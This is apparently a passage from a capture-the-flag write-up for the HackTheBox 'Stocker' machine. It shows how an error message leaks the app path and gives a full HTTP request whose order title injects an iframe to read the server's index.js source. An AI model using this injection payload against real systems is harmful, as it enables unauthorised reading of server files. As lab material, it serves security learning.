 In the order request, a malformed JSON object is sent. Obviously the server spits some errors.

The error contains the path of the application which is at: `/var/www/dev`.

Now, we also need to know the name of the server application. Commonly developers tend to use names like `index.js`, `app.js` or sometimes `server.js`.

Luckily, `index.js` works, and we can see the source code of the application.

```bash

POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 260
Connection: close
Cookie: connect.sid=s%3AeswVmx8Xj3fWdbDyZkXnmL7Trz4KD0ED.CQnWD9TtWWM2AA%2BD4WHqa61FXdp8WsIdCGiQ22dK8V0

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe frameborder='0' height='750' scrolling='no' src='/var/www/dev/index.js' width='750'></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}

```

![](/assets/images/writeups/stocker/8.png)
